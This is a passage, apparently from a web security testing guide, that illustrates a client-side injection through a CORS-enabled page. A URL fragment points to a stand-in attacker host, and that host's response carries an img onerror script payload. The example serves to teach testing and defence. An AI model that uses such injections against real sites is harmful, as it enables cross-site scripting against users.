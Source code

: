 ```text
http://example.foo/main.php#http://attacker.bar/file.php
```

Request and response generated by `http://attacker.bar/file.php`:

```html
GET /file.php HTTP/1.1
Host: attacker.bar
[...]
Referer: http://example.foo/main.php
origin: http://example.foo

HTTP/1.1 200 OK
[...]
Access-Control-Allow-Origin: *
Content-Length: 92
Content-Type: text/html

Injected Content from attacker.bar <img src="#" onerror="alert('Domain: '+document.domain)">
```

## References

- [OWASP HTML5 Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html#cross-origin-resource-sharing)
- [MDN Cross-Origin Resources Sharing](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)
